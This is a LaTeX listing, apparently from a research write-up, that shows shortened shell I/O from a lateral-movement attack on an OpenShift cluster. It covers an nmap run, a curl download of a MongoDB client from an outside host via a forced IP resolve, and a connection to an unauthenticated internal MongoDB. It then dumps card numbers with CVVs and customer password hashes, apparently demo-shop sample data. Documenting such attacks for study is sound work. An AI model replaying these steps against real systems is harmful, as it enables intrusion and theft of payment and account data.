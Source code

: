 \begin{lstlisting}[
	caption={Shortened version of the shell I/O during the exploitation of the \gls{ocp} cluster attack by lateral movement},
	label={lst:lateral-ocp-exploit},
	breaklines=true]
Nmap done: 1 IP address (1 host up) scanned in 0.52 seconds
# curl fastdl.mongodb.org/linux/mongodb-linux-x86_64-4.0.10.tgz --resolve fastdl.mongodb.org:80:52.222.167.194 -O
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 81.0M  100 81.0M    0     0  1069k      0  0:01:17  0:01:17 --:--:-- 1614k
# tar -xvf mongodb-linux-x86_64-4.0.10.tgz
...
mongodb-linux-x86_64-4.0.10/bin/mongo
mongodb-linux-x86_64-4.0.10/bin/install_compass
# ./mongodb-linux-x86_64-4.0.10/bin/mongo 172.30.2.17
MongoDB shell version v4.0.10
connecting to: mongodb://172.30.2.17:27017/test?gssapiServiceName=mongodb
...
Welcome to the MongoDB shell.
...
Server has startup warnings:
2019-06-12T08:05:30.285+0000 I CONTROL  [initandlisten]
2019-06-12T08:05:30.285+0000 I CONTROL  [initandlisten] ** WARNING: Access control is not enabled for the database.
2019-06-12T08:05:30.285+0000 I CONTROL  [initandlisten] **          Read and write access to data and configuration is unrestricted.
2019-06-12T08:05:30.285+0000 I CONTROL  [initandlisten]
2019-06-12T08:05:30.286+0000 I CONTROL  [initandlisten]
2019-06-12T08:05:30.286+0000 I CONTROL  [initandlisten] ** WARNING: /sys/kernel/mm/transparent_hugepage/enabled is 'always'.
2019-06-12T08:05:30.286+0000 I CONTROL  [initandlisten] **        We suggest setting it to 'never'
2019-06-12T08:05:30.286+0000 I CONTROL  [initandlisten]
2019-06-12T08:05:30.286+0000 I CONTROL  [initandlisten] ** WARNING: /sys/kernel/mm/transparent_hugepage/defrag is 'always'.
2019-06-12T08:05:30.286+0000 I CONTROL  [initandlisten] **        We suggest setting it to 'never'
2019-06-12T08:05:30.286+0000 I CONTROL  [initandlisten]
> show dbs
admin  0.000GB
local  0.000GB
users  0.000GB
> use users
switched to db users
> show collections
addresses
cards
customers
> db.cards.find()
{ "_id" : ObjectId("57a98d98e4b00679b4a830ae"), "longNum" : "5953580604169678", "expires" : "08/19", "ccv" : "678" }
{ "_id" : ObjectId("57a98d98e4b00679b4a830b1"), "longNum" : "5544154011345918", "expires" : "08/19", "ccv" : "958" }
{ "_id" : ObjectId("57a98d98e4b00679b4a830b4"), "longNum" : "0908415193175205", "expires" : "08/19", "ccv" : "280" }
{ "_id" : ObjectId("57a98ddce4b00679b4a830d2"), "longNum" : "5429804235432", "expires" : "04/16", "ccv" : "432" }
> db.customers.find()
{ "_id" : ObjectId("57a98d98e4b00679b4a830af"), "firstName" : "Eve", "lastName" : "Berger", "username" : "Eve_Berger", "password" : "fec51acb3365747fc61247da5e249674cf8463c2", "salt" : "c748112bc027878aa62812ba1ae00e40ad46d497", "addresses" : [ ObjectId("57a98d98e4b00679b4a830ad") ], "cards" : [ ObjectId("57a98d98e4b00679b4a830ae") ] }

\end{lstlisting}

